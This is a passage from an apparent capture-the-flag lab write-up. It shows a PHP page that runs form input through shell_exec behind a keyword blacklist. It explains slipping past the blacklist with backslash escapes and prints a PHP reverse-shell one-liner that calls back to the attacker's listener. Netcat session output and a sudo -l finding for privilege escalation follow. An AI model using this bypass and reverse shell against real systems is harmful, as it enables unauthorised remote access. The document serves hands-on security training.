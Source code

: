 ```php
							background-image: url('images/FailingMiserableEwe-size_restricted.gif');
							background-position: center center;
  							background-repeat: no-repeat;
  							background-attachment: fixed;
  							background-size: cover;					
	}	
					</style>
<?php					 return;
				}
                        }
                }
		?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
			<style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
				   background-position: center center;
  				   background-repeat: no-repeat;
  				   background-attachment: fixed;
  				   background-size: cover;
}
                          </style>
	<?php }
?>
</body>
</html>

```

From this file I understood what kind of filtering is applied, the forbidden commands are present in a blacklist and are simply compared with the input string.

To bypass the filtering I used the escape character `\`. So I listened with netcat and entered this command in html form to get a php shell.

```
p\h\p -r '$sock=fsockopen("10.9.15.73,4444);exec("/bin/s\h -i <&3 >&3 2>&3");'
```
Et voila, now I can continue my research with a more stable shell.
```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.217.61 39404
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ 
```
Through the `sudo -l` command, I found that the `www-data` user can execute the `.helpline.sh` file with the permissions of the `apaar` user. 
```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
$ 
```
